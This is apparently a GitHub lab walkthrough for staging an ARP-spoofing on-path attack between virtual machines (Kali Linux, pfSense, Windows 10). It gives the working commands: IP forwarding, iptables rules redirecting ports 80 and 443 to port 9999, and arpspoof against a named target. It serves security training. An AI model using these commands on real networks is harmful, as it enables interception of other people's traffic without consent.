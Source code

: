 # Setting up an On-Path Attack

1. Open your Kali Linux VM.

2. Open the terminal and type in "ifconfig".

<img width="349" alt="image" src="https://github.com/user-attachments/assets/80c452f9-88b5-4e36-9439-424c9b695343" />

Result of Step 2

3. Now switch over to the pfSense VM and type in "8". This is to open the shell.

<img width="226" alt="image" src="https://github.com/user-attachments/assets/46fdcd9e-0db7-49eb-91ab-8689324542bb" />

Result of Step 3

4. Type in "ifconfig em1" to learn more about the IP and MAC address.

<img width="239" alt="image" src="https://github.com/user-attachments/assets/0da664e2-c385-4221-a013-3978bda2447e" />

Result of Step 4

5. Now switch to the Windows 10 VM and open the cmd prompt. From there type in "ipconfig /all". This is to learn the IP and MAC address for the targeted system.

<img width="353" alt="image" src="https://github.com/user-attachments/assets/455183d7-80bb-49cf-8546-46e56f750b29" />

Result of Step 5

6. Now type in "arp -a" in the cmd prompt. This to view the ARP cache. This number should match up with your pfSense VM physical address. 

<img width="251" alt="image" src="https://github.com/user-attachments/assets/d3012aa7-c091-4f97-b15e-3d85c26a2b89" />

Result of Step 6

7. Now switch over to Kali Linux VM and type in "sudo sysctl -w net.ipv4.ip_forward=1"

8. To enable the IP forwarding type in the terminal "sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 9999" 

9. Now edit the previous command to include 443 instead of 89. Type in "sudo iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port 9999"

10. Now type in "sudo arpspoof -i eth0 -t 10.10.10.100 10.10.10.1".

<img width="366" alt="image" src="https://github.com/user-attachments/assets/0f698eae-405f-432d-95dd-3848e89e0d89" />

Results of step 7-10

11. Now switch over to the Windows 10 VM and type in "arp -a". The address should be the same as the ARP spoofing for Kali Linux. 

12. Now type in Mozilla Firefox in the Windows 10 VM and type in "www.facebook.com" The page will time out multiple times due the ARP spoofing going towards Kali Linux.


